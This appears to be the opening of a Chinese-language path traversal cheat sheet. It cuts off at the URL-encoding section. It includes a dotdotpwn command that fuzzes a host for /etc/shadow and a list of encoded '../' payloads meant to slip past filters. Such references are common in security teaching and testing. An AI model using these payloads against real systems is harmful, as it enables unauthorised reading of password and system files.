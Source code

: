 # 目录遍历

> 路径遍历（也称为目录遍历）是一种安全漏洞类型，当攻击者利用“点点斜杠（../）”序列或其他类似构造的变量时会发生这种情况。这可以让攻击者访问存储在文件系统上的任意文件和目录。

## 概述

* [工具](#工具)
* [方法论](#方法论)
    * [URL 编码](#url编码)
    * [双重 URL 编码](#双重-url编码)
    * [Unicode 编码](#unicode编码)
    * [过长 UTF-8 Unicode 编码](#过长-utf-8-unicode编码)
    * [混乱路径](#混乱路径)
    * [空字节](#空字节)
    * [反向代理 URL 实现](#反向代理-url实现)
* [利用](#利用)
    * [UNC 共享](#unc共享)
    * [.NET Cookieless](#.net-cookieless)
    * [IIS 短文件名](#iis短文件名)
    * [Java URL 协议](#java-url协议)
* [路径遍历](#路径遍历)
    * [Linux 文件](#linux文件)
    * [Windows 文件](#windows文件)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 工具

* [wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn) - 目录遍历模糊测试工具

    ```powershell
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## 方法论

我们可以使用 `..` 字符来访问父目录，以下字符串是几种可以帮助绕过实现不佳的过滤器的编码。

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### URL 编码
